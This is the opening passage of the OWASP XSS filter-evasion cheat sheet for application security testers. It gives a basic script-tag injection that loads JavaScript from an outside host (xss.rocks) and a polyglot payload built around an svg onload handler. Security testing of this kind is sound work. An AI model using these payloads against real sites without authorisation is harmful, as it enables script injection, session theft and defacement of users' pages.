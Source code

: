```yaml
---
description: XSS CheatSheet - In this CheatSheet, you will find a series of practical example examples for exploiting xss

---
```

# XSS CheatSheet

## Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS CheatSheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention CheatSheet, the [Cross Site Scripting Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's XSS CheatSheet, so we can thank RSnake for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack CheatSheet, and so the [OWASP CheatSheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

This CheatSheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in multiple contexts including html, script string, js and url. Thank you to [Gareth Heyes](https://twitter.com/garethheyes) for this [contribution](https://twitter.com/garethheyes/status/997466212190781445).

```html
`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

## Image XSS Using the JavaScript Directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:
